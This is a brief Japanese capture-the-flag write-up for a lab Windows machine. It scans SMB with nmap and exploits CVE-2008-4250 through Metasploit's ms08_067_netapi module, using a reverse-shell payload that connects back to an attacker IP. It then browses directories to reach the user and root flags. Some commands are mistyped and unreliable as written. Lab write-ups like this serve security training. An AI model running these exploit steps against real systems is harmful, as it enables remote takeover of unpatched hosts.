

# 1.Port Scan

対象マシンのポートをスキャン
`ip=10.10.10.4`

スキャンすると139ポートでファイル共有サービスである「netbios-ssn」が稼働している事を確認
下記コマンドで関連した脆弱性「CVE-2008-4250」を確認
`nmap -p 139,445 --script smb-vuln* $ip`

CVE-2008-4250を調べた結果Microsoft Windowsのサーバーサービスに存在する深刻なリモートコード実行の脆弱性とのこと
CVE-2008-4250で使用するMetasploitモジュールを調べた結果「ms08\_067\_netapi 」であることを確認

# 2.Exploit

Metasploit Framework を使用
`msfconsole`

下記コマンドを使用してExploitを設定
・使用するエクスプロイトを設定
`use exploit/windows/smb/ms08_067_netapi`
・ターゲットIPを設定
`set rhosts $ip`
・ペイロードを設定
`set PAYLOAD windows/meterpreter/reverse_tcp`
・攻撃者のIPを設定
`set lohos$ip`
・targetIDを設定しシステムを選択
`set target 6`
・エクスプロイトを実行
`exploit`

use exploit/windows/smb/ms08\_067\_netapi
set rhosts 10.10.10.4
set PAYLOAD windows/shell\_reverse\_tcp
set lhost 10.10.14.16
set target 6
exploit

# 3.Flag Get

`Wher root.txt`

whereコマンドが使えない為問題文をヒントに捜索
`dir`
`cd Documents and Settings`
`dir`

ディレクトリ「Administrator」と「john」を発見。移動した所それぞれ「user.txt」と「root.txt」を確認
`cd john`
`cd Desktop`
`dir`

cd Administrator
cd Desktop
dir
